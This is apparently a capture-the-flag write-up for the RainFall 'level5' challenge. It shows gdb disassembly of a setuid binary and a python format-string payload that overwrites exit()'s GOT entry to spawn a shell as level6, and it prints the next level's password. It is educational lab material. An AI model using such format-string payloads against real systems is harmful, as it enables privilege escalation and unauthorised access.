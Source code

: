 # Level5

## Walkthrough

We list the files in the current home directory.

```bash
level5@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
level5@RainFall:~$ file level5 
level5: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xed1835fb7b09db7da4238a6fa717ad9fd835ae92, not stripped
```

The file is owned by **level6** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

There are 3 user-defined functions: `main()`, `o()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

The `main()` function calls the `n()` function.

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

The `n()` function:
- calls `fgets()` to read user input and store it in `[ebp - 0x208]`
- calls `printf()` to print `fgets()` buffer
- calls `exit()`

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

The `o()` function calls `system()` to execute `/bin/sh`.

From our experience with the previous levels, we figure out that we will have to complete this one with a **format string attack**, thanks to `printf()`, in order to call `o()`.  
The logic is similar to the **level3** and **level4**, do not hesitate to read their `README` if needed.

Our first attempt to get the password is to overwrite the `old eip` stored when calling `printf()` with the address of `o()`.

```
(gdb) b printf
Breakpoint 1 at 0x8048380
(gdb) r
Starting program: /home/user/level5/level5 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r esp
esp            0xbffff41c       0xbffff41c
(gdb) x/16wx 0xbffff41c
0xbffff41c:	0x080484f8	0xbffff430	0x00000200	0xb7fd1ac0
0xbffff42c:	0xb7ff37d0	0x41414141	0xb7e2000a	0x00000001
0xbffff43c:	0xb7fef305	0xbffff498	0xb7fde2d4	0xb7fde334
0xbffff44c:	0x00000007	0x00000000	0xb7fde000	0xb7fff53c
```

The first hexadecimal address `0x080484f8`, at the top of the stack, represents the address of the next `n()` instruction. It is stored at `0xbffff41c`, and the `o()` address is `0x080484a4`.  

```bash
level5@RainFall:~$ (python -c "print('\x1c\xf4\xff\xbf' + '%8x%8x%134513808x' + '%n')"; cat) | ./level5
```

Unfortunately the spawned shell is being instantly closed. After discussing with other students, the `exit()` calls may be the reason of our problem. To bypass this issue, we can perform a **GOT overwrite**.

> Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

We have to find the address of `exit()` in the GOT.

```
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:     push   0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

The `objdump` command can also be used in order to list all the GOT entries.

```bash
level5@RainFall:~$ objdump --dynamic-reloc ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

Our new target is the address `0x08049838`. We rewrite our command with the updated value.

```bash
level5@RainFall:~$ (python -c "print('\x38\x98\x04\x08' + '%8x%8x%134513808x' + '%n')"; cat) | ./level5
# [...]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Resources

- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- [GOT and PLT for pwning.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
